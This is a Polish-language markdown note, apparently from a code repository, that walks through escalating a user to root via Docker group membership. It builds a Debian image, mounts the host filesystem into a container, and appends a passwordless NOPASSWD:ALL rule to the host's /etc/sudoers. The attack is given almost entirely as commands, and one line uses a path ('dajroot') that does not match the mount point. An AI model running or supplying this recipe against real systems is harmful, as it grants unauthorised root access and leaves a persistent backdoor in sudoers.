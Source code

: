 # Eskalacja uprawnień użytkownika (nielegalna!)

Testowanie uprawnień i tworzenie pliku dockerfile

```bash
more /etc/passwd | grep <nazwa_usera> # sprawdzenie informacji odnośnie konkretnego użytkownika
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
getent group | grep docker # sprawdzenie grupy docker
getent group | grep user # sprawdzenie grupy user
sudo bash # próba uruchomemia programu jako root (weryfikacja poziomu uprawnień)
mkdir /home/user/folder # utworzenie katalogu roboczego
nano Dockerfile # otworzenie pliku dockerfile w edytorze nano (jeżeli nie istnieje, to zostanie utworzony)
```

Struktura pliku Dockerfile:
    - FROM debian:wheezy # żródłowy obraz OSa
    - ENV WORKDIR /folder # utworzenie zmiennej środowiskowej
    - RUN mkdir -p $WORKDIR # punkt montowania systemu plików
    - VOLUME $WORKDIR # ustawiemie woluminu
    - WORKDIR $WORKDIR # ustawienie przestrzeni roboczej

Dockerfile:

```docker
    FROM debian:wheezy
    ENV WORKDIR /folder
    RUN mkdir -p $WORKDIR
    VOLUME $WORKDIR
    WORKDIR $WORKDIR
```

Tworzenie, uruchamianie obrazu, wykorzystanie luki i ponowna weryfikacja uprawnień

```bash
docker build -t folder . # tworzenie pliku obrazu folder
docker ps # wyświetlenie listy uruchomionych aplikacji kontenerowych
docker run -v /:/folder -it folder /bin/bash # uruchamianie obrazu (montowanie systemu plików do wskazanej lokalizacji kontenera oraz wybranie trybu internatywnego (opcja -i), opcji wykorzystania terminala (opcja -t), nazwy kontenera (tutaj folder) i powłoki OSa (tutaj /bin/bash) )
cd ..
echo "user ALL=(ALL) NOPASSWD:ALL" >> /folder/etc/sudoers # dodanie użytkownika do grupy sudoers (dopisanie do pliku /etc/sudoers hosta)
cat dajroot/etc/sudoers # wyświetlenie pliku /etc/sudoers
exit # zakończenie pracy z poziomu kontene
sudo bash # wetyfikacja uprawnień
id # sprawdzenie id aktualnie zalogowanego użytkownika
whoami # sprawdzenie, na jakiego usera jesteśmy zalogowani
cd ~ # przejście do katalogu domowego użytkownika
pwd # wyświetlenie ścieżki do aktualnego folderu
```
